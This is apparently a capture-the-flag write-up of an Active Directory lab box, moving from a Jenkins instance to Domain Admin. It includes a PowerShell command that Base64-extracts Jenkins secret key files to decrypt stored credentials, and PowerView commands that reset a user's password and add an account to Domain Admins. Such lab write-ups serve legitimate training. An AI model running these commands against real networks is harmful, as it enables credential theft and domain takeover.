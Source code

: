 # Object (AD)

## Gaining Access

As usual, we start with an Nmap scan:

<figure><img src="../../../.gitbook/assets/image (54) (2).png" alt=""><figcaption></figcaption></figure>

Doing a detailed scan, we can find that port 8080 was running a Jetty instance.

<figure><img src="../../../.gitbook/assets/image (56) (2).png" alt=""><figcaption></figcaption></figure>

### Jenkins

Port 8080 revealed a Jenkins instance login page:

<figure><img src="../../../.gitbook/assets/image (39) (4).png" alt=""><figcaption></figcaption></figure>

With Jenkins, I attempted to create a Windows batch command that would execute every minute like so:

<figure><img src="../../../.gitbook/assets/image (18) (5).png" alt=""><figcaption></figcaption></figure>

However, this failed because the box was unable to reach my machine. I suppose there is a firewall or something within the machine that is blocking outgoing TCP traffic.

Instead, we can use this machine to enumerate the box instance. I noticed that the machine was building the workspace in this directory:

<figure><img src="../../../.gitbook/assets/image (73) (2).png" alt=""><figcaption></figcaption></figure>

I opeted to view the files in that directory using `dir /s`.&#x20;

<figure><img src="../../../.gitbook/assets/image (70) (2).png" alt=""><figcaption></figcaption></figure>

We find another `.jenkins` folder. Within that, we would find another `users` folder with some `config.xml` files:

<figure><img src="../../../.gitbook/assets/image (8) (1) (4) (1).png" alt=""><figcaption></figcaption></figure>

Naturally, the admin one is more interesting. Taking a look reveals that there is an encoded password within it:

<figure><img src="../../../.gitbook/assets/image (42) (3).png" alt=""><figcaption></figcaption></figure>

### Decrypting Password

With Jenkins instances, we would need to extract 2 files that are used to decrypt this password, which is the `master.key` and the `hudson.util.Secret` files. These can be found within the `C:\users\oliver\AppData\Local\Jenkins\.jenkins\secrets\` folder.

Since they might be in non-printable characters, we would need to use Base64 to get them out. This can be done with a little Powershell scripting.

```powershell
powershell "[convert]::ToBase64String((Get-Content -path '<PATH>' -Encoding byte))"
```

After extracting both of these files, we can use this tool to decrypt them:

{% embed url="https://github.com/hoto/jenkins-credentials-decryptor" %}

<figure><img src="../../../.gitbook/assets/image (66) (2).png" alt=""><figcaption></figcaption></figure>

Then, we can `evil-winrm` in as `oliver`.&#x20;

<figure><img src="../../../.gitbook/assets/image (61) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Once in the machine, I ran `Sharphound.ps1` to enumerate for me:

<figure><img src="../../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

### BloodHound

We find that within Bloodhound, the `oliver` user has the `ForceChangePassword` permission over the `smith` user.

<figure><img src="../../../.gitbook/assets/image (34) (3).png" alt=""><figcaption></figcaption></figure>

The `smith` user has `GenericWrite` permissions over the `maria` user:

<figure><img src="../../../.gitbook/assets/image (38) (3) (1).png" alt=""><figcaption></figcaption></figure>

And lastly, the `maria` user has `WriteOwner` permissions over the `Domain Admins` group:

<figure><img src="../../../.gitbook/assets/image (27) (1) (1).png" alt=""><figcaption></figcaption></figure>

Interesting path of exploits.

### Oliver to Smith

Moving to the `smith` user is rather easy. We can simpy change his password using some Powerview

```powershell
$newpass = ConvertTo-SecureString 'Password@123' -AsPlainText -Force
. .\powerview.ps1
Set-DomainUserPassword -Identity smith -AccountPassword $newpass
```

Then we can evil-winrm in.

### Smith to Maria

Because we had `GenericWrite` over `maria` now, we can set an SPN for the user `maria` and Kerberoast the user.&#x20;

However, this did not work out well as I was not able to make use of the ticket. Furthermore, the firewall was still up and I could not transfer files around easily. As such, I opted to read the `maria` user's directory to see what files are present since we cannot do anything else.&#x20;

As `smith`, we can create a malicious Powershell script and change the logon script for `maria`.&#x20;

<figure><img src="../../../.gitbook/assets/image (5) (1) (4).png" alt=""><figcaption></figcaption></figure>

Within the desktop, I found this `Engines.xls` file.

<figure><img src="../../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

Copying it to another directory, I was able to move it to my machine using the `download` command from `evil-winrm`. Within it, we can find some credentials:

<figure><img src="../../../.gitbook/assets/image (45) (2).png" alt=""><figcaption></figcaption></figure>

We can use the last credential to `evil-winrm` in as `maria`:

<figure><img src="../../../.gitbook/assets/image (36) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Maria to Domain Admin

Because `maria` has `WriteOwner` privileges over the group, we can simply add ourselves to the Domain Admin group:

```powershell
# PowerView
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "maria"
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
net group "Domain Admins" maria /add
```

<figure><img src="../../../.gitbook/assets/image (46) (2).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can re-logon using `evil-winrm` and see that we have full administrative privileges:

<figure><img src="../../../.gitbook/assets/image (55) (2).png" alt=""><figcaption></figcaption></figure>

We can then access the administrator desktop and capture the root flag.&#x20;
